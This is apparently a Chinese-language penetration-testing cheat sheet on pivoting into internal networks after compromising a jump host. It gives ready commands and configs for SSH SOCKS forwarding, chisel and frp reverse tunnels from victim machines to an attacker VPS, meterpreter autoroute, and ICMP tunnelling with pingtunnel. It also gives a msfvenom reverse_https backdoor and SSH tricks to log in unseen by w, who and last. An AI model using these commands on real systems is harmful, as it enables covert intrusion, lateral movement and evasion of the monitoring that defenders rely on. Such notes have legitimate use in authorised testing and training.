

# 内网穿透

## 1. SSH 代理

当获取到跳板机的权限后，可以使用 ssh 动态转发的功能开启 socks5 流量代理。  
在攻击机中执行：

```
ssh -fNgC -D 127.0.0.1:7070 root@<跳板机IP>
```

则可以通过`proxychains`或者 msf 中的`setg Proxies socks:127.0.0.1:7070`将流量转发到内网中

tips:  
隐身登录系统，不会被 w、who、last 等指令检测到。

```
ssh -T root@192.168.0.1 /bin/bash -i
```

不记录 ssh 公钥在本地.ssh 目录中

```
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i
```

## 2. chisel

项目地址：`https://github.com/jpillora/chisel`

1. 正向代理
   使用场景: 公网中某机器被控制, 其存在双网卡, 同时具有公网 ip 和内网 ip
   下载后，在靶机中执行：

```
chisel server -p <listen_port> --socks5
```

`listen_port`代表本机开启的用于流量转发的端口，例如 7070  
在攻击机中执行：

```
chisel client <靶机IP>:<listen_port> 127.0.0.1:1080:socks
```

则攻击机中的 chisel 就会默认监听 1080 端口  
通过`proxychains`或者 msf 中的`setg Proxies socks:127.0.0.1:1080`将流量转发到内网中

2. 反向代理
   使用场景: 控制了目标内网中存在某可出网的机器, 通过在这台受害机中搭建代理隧道进入内网.
   在 VPS 中执行:

```
chisel server -p <listen_port> --reverse
```

`listen_port`代表 VPS 的 socks 代理隧道端口
在受害机中配置:

```
chisel client <VPS ip>:<listen_port> R:0.0.0.0:1080:socks
```

那么在 vps 的`1080`端口中, 便运行了 socks 服务

3. 端口转发
   将 server 的 8000 端口 clent 的 11111 端口

```
chisel.exe client <server_ip>:<port> 11111:127.0.0.1:8000
```

## 3. meterpreter 路由

设法在靶机中上传 meterpreter 的木马，然后在攻击机中的 msf 中连接这个木马，进入 meterpreter shell  
则可以通过：

```
run autorouter -s <内网ip段>
```

将跳板机连接的内网挂在到 msf 的路由中。msf 此时即可访问内网，实现内网穿透。

若跳板机未上线 msf, 则通过设置全局变量的方式挂代理:

```
setg Proxies socks5:192.168.247.143:64295
```

## 4. frp

1. 使用 frp 进行反向代理
   使用场景: 可控制一台能出网的受害机, 通过在这台受害机中搭建代理隧道进入内网.
   在 frp server 端(一般是 VPS)配置 frps.ini

```
[common]
bind_port = 7000
```

在 frp client 端(一般是受害机)配置 frpc.ini

```
[common]
server_addr = <VPS ip>
server_port = 7000  #与bind_port一致

[socks_proxy]
type = tcp
remote_port = 7777 # 远程主机的代理端口
plugin = socks5
```

分别在 server 和 client 运行`frps -c frps.ini`和`frpc -c frpc.ini`后，VPS 的`7777`端口就运行了 socks5 代理服务
通过代理工具连接`<边界机器IP>:7777`即可使用边界机器作为跳板进入内网

2. 使用 frp 进行端口转发
   例如现在某个机器的`3389`端口被防火墙拦截, 不能通过本机连接,那么可以将目标机器的 3389 端口转发到本地机器的某个端口

以 VPS 作为 server, 配置 frps.ini

```
[common]
bind_port = 7000
```

以目标机器作为 client, 配置 frpc.ini

```
[common]
server_addr = <VPS ip>
server_port = 7000  #与bind_port一致

[rdp]
type = tcp
local_ip = 127.0.0.1
local_port = 3389
remote_port = 6000
```

分别在 server 和 client 运行`frps -c frps.ini`和`frpc -c frpc.ini`后，远程主机的`3389`端口就被转发到本地的`6000`端口了

## 5. ICMP 隧道

工具: pingtunnel, 步骤如下

1. 服务端, 转发服务器, 一般使我们的 vps

```
echo 1 >/proc/sys/net/ipv4/icmp_echo_ignore_all
sudo ./pingtunnel -type server
```

2. 客户端, 一般是受害机, 需要以 admininstrator 权限运行

```
pingtunnel -type client -l 127.0.0.1:<lport> -s <server_ip> -t <tunnel_addr>:<rport> -tcp 1
```

代表将客户端本地的`<lport>`端口通过`<server_ip>`转发至`<tunnel_addr>:<rport>`, 使用 tcp 服务
参数解释:

```
-l: 要转发的本地端口
-s: icmp tunnel服务器, 也可以是我们的vps, 但是这个服务器一定要能ping通需要转发到的目的地址
-t: 要转发的目标地址端口, icmp tunnel服务器会中转访问该地址
-tcp: 使用tcp协议
```

3. 生成后门文件, 以 msf 为例, 反弹地址为 127.0.0.1, 端口为受害机的`<lport>`

```
msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=127.0.0.1 LPORT=4444 -o ~/Desktop/backdoor.exe
```

cs 同理, 反弹地址为`127.0.0.1`, 端口为受害机的`<lport>`

4. 在受害机中运行后门文件, 即可通过 icmp 隧道上线

set AutoRunScript post/windows/manage/migrate

5. 利用`pingtunnel`进行`socks5`转发:


服务端按步骤 1 启动服务, 客户端运行:

```
pingtunnel.exe -type client -l:4455 -s <server_ip> -sock5 1
```

运行后在客户端的`4455`端口就运行着`socks5`代理

## 6. UDP 隧道



## 7. NPS

地址: [https://github.com/ehang-io/nps/releases](https://github.com/ehang-io/nps/releases)

文档: [https://ehang-io.github.io/nps/#/?id=nps](https://ehang-io.github.io/nps/#/?id=nps)
